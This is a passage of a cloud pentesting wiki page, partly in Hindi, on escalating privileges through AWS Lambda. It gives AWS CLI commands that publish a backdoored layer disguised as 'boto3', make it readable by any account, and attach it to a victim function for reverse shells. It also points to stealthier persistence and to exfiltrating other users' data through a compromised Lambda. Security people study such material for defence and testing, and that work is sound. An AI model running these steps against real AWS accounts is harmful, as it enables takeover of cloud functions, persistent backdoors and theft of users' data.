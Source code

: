 {% code overflow="wrap" %}
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

अब, अपलोड की गई लैम्ब्डा लेयर को **किसी भी खाते द्वारा सुलभ** बनाएं:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
और पीड़ित लैम्ब्डा फ़ंक्शन से लैम्ब्डा लेयर को संलग्न करें:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
The next step would be to either **invoke the function** ourselves if we can or to wait until **it gets invoked** by normal means–which is the safer method.

A **more stealth way to exploit this vulnerability** can be found in:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**Potential Impact:** Direct privesc to the lambda service role used.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

शायद उन अनुमतियों के साथ आप एक फ़ंक्शन बना सकते हैं और इसे URL को कॉल करके निष्पादित कर सकते हैं... लेकिन मैं इसे परीक्षण करने का कोई तरीका नहीं ढूंढ सका, तो मुझे बताएं अगर आप करते हैं!

### Lambda MitM

कुछ लैम्ब्डा **उपयोगकर्ताओं से संवेदनशील जानकारी प्राप्त करने जा रहे हैं।** यदि इनमें से एक में RCE प्राप्त होता है, तो आप अन्य उपयोगकर्ताओं द्वारा भेजी जा रही जानकारी को एक्सफिल्ट्रेट कर सकते हैं, इसे जांचें:

{% content-ref url="../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)
